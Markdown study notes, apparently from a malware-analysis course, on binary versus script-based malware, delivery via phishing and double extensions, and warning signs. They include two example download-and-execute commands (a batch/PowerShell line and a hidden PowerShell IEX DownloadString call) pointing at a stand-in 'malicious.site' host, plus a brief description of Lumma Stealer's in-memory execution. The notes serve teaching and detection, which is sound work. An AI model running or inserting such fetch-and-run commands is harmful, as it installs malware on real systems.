


2 common categories are Binary and Script malware


# Binary Malware
- Executable-based malware are delivered as compiled files, .exe or .dll. 
- Files are from source code and running it should be compatible with the OS 
- Through phishing, malicious downloads, removable media. 
- Sometimes disguise like double extensions so real extension is hidden. 
	- invoice.pdf.exe
- Executables are identified through checksum, by calculating the hash. 
	- These are used by antivirus and detection engines 

# Script-Based Malware
- Relies on scripts written in .js, .vbs, .bat, or .ps1. 
- Scripts are easier to change and adapt
- Often through phishing
	- Macro malware
	- Through malicious websites 
	- These files can run a script if opened. 
- Are popular for initial access 
Signs that we can suspect: 
- Script downloads or runs file from the internet
- Changes system or disables something 
- Runs commands that are not part of standard operation, might be obfuscated or encoded
- Launches other applications like Powershell or CMD 

Example of unobfuscated script: 
```
@echo off  
powershell -Command "Invoke-WebRequest http://malicious.site/payload.exe -OutFile C:\Users\Public\payload.exe" start C:\Users\Public\payload.exe
```

or
```
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```

Example of obfuscated malware: 
**Lumma Stealer**, coded in C and used as a MaaS





Take not of function and variable 

wherein in the end of the code the variable will be base64 decrytpted and executed in memory using .NET assembly (execute in memory and not in disk)



